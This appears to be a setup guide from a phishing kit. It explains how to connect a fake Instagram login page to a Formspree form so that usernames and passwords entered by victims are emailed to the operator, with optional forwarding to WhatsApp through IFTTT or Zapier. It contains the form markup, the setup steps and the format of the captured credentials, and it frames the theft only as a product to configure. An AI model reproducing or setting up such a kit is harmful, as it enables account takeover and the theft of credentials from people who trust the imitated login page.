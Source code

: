 # Setup Guide: Receive Login Credentials via Email

## Step 1: Create a Formspree Account

1. Go to [https://formspree.io](https://formspree.io)
2. Click "Sign Up" and create a free account
3. Verify your email address

## Step 2: Create a New Form

1. After logging in, click "New Form"
2. Give your form a name (e.g., "Instagram Login Credentials")
3. Copy the form ID that appears (it will look like: `xrgjqkqw`)

## Step 3: Update Your HTML File

1. Open `index.html` in a text editor
2. Find this line:
   ```html
   <form
     action="https://formspree.io/f/YOUR_FORM_ID"
     method="POST"
     id="loginForm"
   ></form>
   ```
3. Replace `YOUR_FORM_ID` with your actual form ID from Step 2
4. Save the file

## Step 4: Test the Setup

1. Open `index.html` in your browser
2. Enter any username and password
3. Click "Log In"
4. Check your email - you should receive a message with the credentials

## Alternative: WhatsApp Integration

If you want to receive notifications on WhatsApp, you can:

### Option 1: Use WhatsApp Business API

- Set up a WhatsApp Business account
- Use a service like Twilio or MessageBird
- This requires more technical setup

### Option 2: Use IFTTT (Easier)

1. Create an IFTTT account
2. Set up a recipe: "If email received from Formspree, then send WhatsApp message"
3. This will forward email notifications to your WhatsApp

### Option 3: Use Zapier

1. Create a Zapier account
2. Create a zap: "When email received from Formspree, send WhatsApp message"
3. Connect your email and WhatsApp

## Email Format

The email you'll receive will contain:

- Subject: "New Instagram Login Credentials"
- Body: Username and password entered by the user
- Timestamp of when the login was attempted

## Security Note

⚠️ **Important**: This setup will send credentials in plain text via email. For production use, consider:

- Using HTTPS
- Implementing additional security measures
- Storing data securely if needed

## Troubleshooting

If you don't receive emails:

1. Check your spam folder
2. Verify your email address in Formspree
3. Make sure the form ID is correct
4. Check Formspree dashboard for any errors

## Free Tier Limits

Formspree free tier includes:

- 50 submissions per month
- Basic email notifications
- Spam protection

For more submissions, consider upgrading to a paid plan.
